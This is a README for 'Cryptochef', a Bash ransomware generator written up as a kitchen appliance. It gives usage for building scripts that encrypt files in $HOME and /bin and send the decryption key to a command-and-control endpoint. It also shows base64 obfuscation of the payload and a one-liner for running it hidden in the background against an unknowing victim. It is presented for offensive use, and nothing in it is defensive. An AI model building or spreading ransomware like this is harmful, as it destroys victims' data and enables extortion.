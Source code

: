 # Cryptochef - The ransomware kitchen appliance[PREVIEW] 👨‍🍳
## What is
Cryptochef is your new ransomware kitchen appliance. Prepare and spread your favourite Bash GNU/Linux ransomware culinary recipes. Remember! Your fantasy is the best ingredient to cook the best ransomware of the world.

## How to use
```cryptochef.sh [file extension filter] [directory filter] [encrypted extension] [private key size] [command and control endpoint] > [recipient name].sh```

Example:
```cryptochef.sh "(.*?)\.(txt|conf)" "\$HOME /bin" "egg" 4096 http://chef.com:1337/ > omelette.sh```
Cook an omelette that:
- Encrypts all file with *txt* and *conf* extension
- Inside the *$HOME* and */bin* directories,
- Change  its extension to *egg*,
- Uses 4096 bit private key
- Sends the private key to http://chef.com:1337/ endpoint

**Every great culinary recipes are a secret, like Coca Cola, then encode your recipe:**
```
# Encode the recipe
encoded_recipe=$(cat omelette.sh | base64 | tr -d '\n' )
# Taste the recipe
base64 -d <<< ${encoded_recipe} | bash
```

**Do you want to poison someone without him knowing? Fork and hide the venom inside your recipe: 🤢🤢**
```
base64 -d <<< ${encoded_recipe} &>/dev/null &disown; | bash
```
